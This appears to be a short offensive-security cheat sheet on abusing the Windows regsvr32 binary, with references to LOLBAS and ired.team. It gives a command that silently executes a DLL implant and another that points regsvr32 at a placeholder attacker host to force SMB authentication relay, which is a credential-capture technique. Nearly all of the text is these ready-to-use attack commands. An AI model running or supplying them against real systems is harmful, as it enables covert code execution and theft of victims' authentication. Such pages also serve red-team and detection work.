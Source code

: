 # Regsvr32

Execute DLL implant.

```
C:\> regsvr32.exe /s implant.dll
```

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll
```

---
## References

https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/

https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo